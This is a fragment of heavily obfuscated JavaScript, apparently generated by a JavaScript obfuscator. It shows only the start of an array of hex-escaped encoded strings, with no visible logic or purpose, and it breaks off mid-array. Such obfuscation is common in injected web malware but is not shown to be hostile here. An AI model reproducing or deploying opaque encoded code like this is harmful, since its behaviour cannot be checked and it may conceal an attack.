 var _0x09db =
['\x50\x63\x4f\x46\x77\x71\x63\x78\x43\x30\x64\x72\x53\x63\x4f\x4b\x46\x63\x4b\x53\x77\x71\x4c\x43\x76\x73\x4f\x6d\x64\x77\x3d\x3d', '\x46\x38\x4b\x73\x77\x6f\x2f\x43\x6a\x38\x4f\x55\x4c\x77\x4d\x3d', '\x62\x6e\x62\x43\x73\x38\x4b\x64\x42\x77\x4c\x43\x6a\x4d\x4b\x56\x51\x4d\x4f\x30\x77\x35\x38\x54\x4f\x4d\x4f\x2b', '\x77\x36\x62\x43\x6f\x52\x5a\x4b\x77\x35\x6a\x43\x6a\x73\x4f\x64', '\x77\x36\x2f\x44\x67\x63\x4f\x33\x47\x4d\x4b\x68\x77\x70\x74\x6c\x66\x69\x51\x4f\x49\x41\x49\x46\x77\x71\x30\x3d', '\x49\x38\x4f\x4c\x77\x71\x46\x39\x77\x72\x37\x44\x6e\x67\x3d\x3d', '\x77\x37\x6a\x44\x6e\x38\x4f\x33\x47\x63\x4b\x6c\x77\x6f\x51\x34', '\x77\x36\x2f\x44\x74\x69\x2f\x44\x6e\x38\x4b\x4d\x65\x63\x4f\x34\x52\x38\x4b\x48\x77\x35\x54\x43\x6b\x41\x3d\x3d', '\x65\x63\x4f\x59\x77\x37\x62\x43\x6f\x41\x58\x44\x73\x51\x3d\x3d', '\x77\x36\x4c\x43\x68\x56\x67\x51\x77\x70\x72\x43\x6b\x79\x66\x43\x68\x41\x50\x43\x72\x38\x4b\x37\x61\x48\x30\x3d', '\x77\x72\x58\x44\x75\x6b\x54\x43\x6f\x63\x4f\x4c\x77\x70\x55\x3d', '\x66\x4d\x4f\x79\x77\x34\x38\x3d', '\x58\x73\x4f\x49\x77\x34\x6b\x61\x77\x6f\x39\x6e\x77\x36\x37\x44\x72\x31\x58\x44\x75\x38\x4f\x54\x54\x4d\x4b\x67\x77\x72\x78\x46\x51\x31\x59\x79', '\x77\x37\x55\x45\x77\x70\x41\x5a\x61\x77\x3d\x3d', '\x4b\x63\x4b\x52\x42\x41\x3d\x3d', '\x54\x73\x4f\x4e\x77\x34\x67\x63\x77\x6f\x46\x38\x77\x70\x54\x44\x73\x31\x50\x44\x6d\x38\x4b\x61\x41\x38\x4b\x75\x77\x72\x35\x4e\x43\x52\x34\x3d', '\x77\x71\x62\x44\x6f\x30\x48\x43\x70\x38\x4f\x61', '\x5a\x73\x4f\x4e\x5a\x38\x4f\x78\x77\x71\x55\x4d\x4f\x78\x34\x3d', '\x77\x35\x72\x44\x71\x63\x4b\x36\x58\x4d\x4b\x2f\x77\x70\x48\x43\x75\x4d\x4f\x73\x77\x70\x2f\x43\x67\x44\x34\x41\x77\x71\x67\x64\x44\x63\x4f\x44\x77\x6f\x2f\x43\x70\x77\x3d\x3d', '\x77\x36\x6c\x58\x53\x52\x2f\x43\x6f\x73\x4b\x4c\x4e\x32\x6b\x3d', '\x77\x72\x78\x6f\x77\x71\x2f\x44\x6d\x73\x4f\x41\x54\x78\x6b\x7a\x77\x35\x37\x44\x75\x4d\x4f\x4d\x62\x38\x4b\x73\x77\x37\x72\x44\x67\x77\x3d\x3d', '\x77\x37\x2f\x43\x6b\x30\x6f\x56\x77\x6f\x59\x3d', '\x64\x38\x4b\x4e\x56\x52\x51\x57\x5a\x41\x62\x43\x72\x38\x4b\x4d\x77\x6f\x38\x57\x48\x63\x4f\x63\x77\x34\x35\x76\x77\x6f\x46\x2b\x77\x70\x4a\x57\x56\x41\x3d\x3d', '\x49\x33\x4d\x48\x77\x71\x44\x44\x68\x48\x49\x3d', '\x45\x4d\x4b\x57\x56\x6b\x45\x79\x50\x30\x34\x5a\x77\x72\x55\x33', '\x47\x41\x44\x43\x73\x73\x4b\x67\x61\x78\x37\x44\x76\x56\x2f\x44\x73\x4d\x4f\x35\x77\x72\x7a\x44\x69\x73\x4b\x77\x47\x63\x4f\x6b\x77\x70\x33\x44\x75\x78\x59\x75\x77\x34\x7a\x43\x6a\x4d\x4f\x72\x4b\x41\x3d\x3d', '\x54\x4d\x4b\x7a\x65\x4d\x4f\x69\x77\x70\x67\x3d', '\x77\x37\x4e\x57\x66\x41\x3d\x3d', '\x77\x37\x7a\x43\x67\x55\x63\x43\x77\x6f\x62\x43\x67\x43\x58\x44\x69\x51\x3d\x3d', '\x51\x79\x48\x44\x75\x38\x4b\x6d\x77\x37\x31\x34\x55\x38\x4f\x2f\x77\x6f\x2f\x44\x70\x6c\x78\x65\x77\x6f\x6f\x4e\x4d\x53\x76\x43\x71\x73\x4f\x75\x64\x73\x4f\x41\x77\x70\x63\x61\x47\x69\x34\x2b\x77\x34\x49\x3d', '\x77\x36\x62\x44\x76\x63\x4f\x6f\x77\x71\x78\x6b', '\x63\x73\x4b\x49\x77\x72\x6e\x44\x70\x73\x4b\x33\x77\x35\x68\x47', '\x64\x38\x4b\x59\x77\x71\x33\x44\x74\x77\x3d\x3d', '\x77\x36\x30\x51\x77\x70\x45\x4f\x61\x38\x4b\x58\x50\x77\x3d\x3d', '\x61\x38\x4b\x55\x77\x72\x72\x44\x6f\x4d\x4b\x39\x77\x35\x30\x70\x61\x42\x4c\x43\x69\x38\x4b\x4f\x77\x71\x72\x43\x6c\x63\x4b\x65\x43\x38\x4b\x69\x50\x6b\x44\x43\x72\x6b\x63\x3d', '\x77\x71\x54\x44\x69\x53\x62\x44\x70\x38\x4f\x58', '\x77\x71\x62\x43\x6a\x4d\x4f\x56', '\x77\x35\x66\x44\x70\x6a\x6e\x44\x75\x38\x4b\x4e\x58\x63\x4f\x30\x54\x73\x4b\x52\x77\x35\x41\x3d', '\x77\x34\x51\x72\x56\x38\x4f\x69\x77\x36\x64\x67\x77\x72\x44\x44\x6e\x55\x56\x51\x77\x36\x4a\x37\x62\x6e\x6c\x45\x77\x36\x35\x39\x41\x63\x4b\x41\x77\x6f\x50\x44\x6e\x77\x3d\x3d', '\x77\x37\x73\x79\x59\x46\x68\x71', '\x77\x36\x6e\x44\x76\x56\x55\x3d', '\x4a\x63\x4b\x64\x47\x54\x30\x58\x77\x34\x78\x50\x77\x35\x70\x31\x4f\x77\x77\x3d', '\x51\x47\x58\x43\x67\x77\x39\x42\x77\x35\x39\x57\x50\x4d\x4b\x52\x57\x32\x49\x7a\x54\x38\x4f\x44\x45\x4d\x4b\x56\x77\x37\x33\x44\x6e\x73\x4f\x30\x77\x72\x34\x71\x77\x6f\x77\x57\x42\x63\x4f\x6a\x63\x73\x4b\x6b\x4c\x67\x3d\x3d', '\x77\x36\x33\x44\x6c\x63\x4f\x78\x43\x63\x4b\x30\x77\x6f\x51\x3d', '\x77\x6f\x62\x43\x67\x48\x50\x43\x67\x43\x62\x44\x6e\x41\x72\x44\x70\x73\x4b\x6d\x77\x37\x2f\x44\x69\x42\x50\x43\x71\x73\x4f\x73\x77\x71\x72\x43\x76\x6b\x39\x6d\x77\x36\x63\x62\x77\x70\x51\x3d', '\x77\x71\x56\x67\x77\x72\x66\x44\x6c\x38\x4f\x49\x57\x55\x4d\x2f\x77\x34\x50\x43\x75\x4d\x4f\x51\x61\x4d\x4b\x39\x77\x37\x2f\x44\x6c\x56\x52\x53\x77\x36\x7a\x44\x6f\x77\x54\x44\x6f\x63\x4b\x4f\x77\x70\x54\x43\x67\x7a\x68\x48\x46\x47\x64\x6a', '\x77\x70\x51\x5a\x77\x34\x48\x43\x69\x68\x6b\x3d', '\x77\x37\x66\x43\x71\x77\x6c\x4d\x77\x34\x58\x43\x6a\x73\x4f\x4e\x77\x6f\x35\x79\x77\x70\x33\x43\x6c\x51\x3d\x3d', '\x77\x70\x33\x43\x71\x69\x45\x72\x77\x6f\x5a\x32\x4d\x41\x4d\x4d\x77\x71\x6b\x6d\x44\x4d\x4f\x73\x77\x72\x4c\x43\x72\x30\x44\x43\x6c\x63\x4f\x53\x77\x6f\x41\x77\x77\x70\x70\x38\x77\x35\x73\x49\x47\x43\x39\x65\x77\x71\x4c\x44\x6a\x4d\x4b\x65\x64\x69\x48\x44\x68\x4d\x4b\x43\x55\x46\x41\x42\x77\x34\x6e\x44\x69\x38\x4f\x6f\x46\x38\x4f\x2f\x77\x35\x7a\x43\x6e\x31\x34\x2b\x63\x30\x4e\x54\x77\x72\x2f\x44\x6b\x48\x58\x44\x71\x4d\x4f\x71\x77\x36\x78\x6e\x77\x35\x6e\x44\x70\x58\x37\x43\x6e\x51\x44\x44\x6a\x38\x4b\x55\x77\x36\x76\x44\x73\x52\x63\x4a\x45\x46\x45\x58\x77\x34\x5a\x4f\x45\x73\x4b\x53\x43\x63\x4f\x39\x45\x38\x4b\x6c\x46\x38\x4b\x74\x66\x46\x72\x44\x67\x63\x4b\x66', '\x4d\x47\x6f\x43\x77\x71\x62\x44\x6c\x51\x3d\x3d', '\x77\x34\x33\x44\x76\x53\x6e\x44\x75\x38\x4b\x5a\x59\x38\x4f\x7a\x54\x38\x4b\x42', '\x51\x57\x6e\x43\x6e\x78\x68\x48\x77\x34\x63\x57\x47\x41\x3d\x3d', '\x77\x70\x51\x64\x77\x35\x2f\x43\x6a\x42\x56\x76\x64\x63\x4b\x4a', '\x77\x37\x67\x77\x77\x72\x55\x42', '\x45\x67\x37\x43\x70\x38\x4b\x38\x59\x52\x72\x44\x70\x30\x54\x43\x72\x4d\x4b\x7a\x77\x72\x2f\x44\x69\x4d\x4b\x72\x45\x38\x4f\x30\x77\x70\x4c\x44\x71\x44\x35\x38\x77\x70\x58\x44\x6a\x67\x3d\x3d',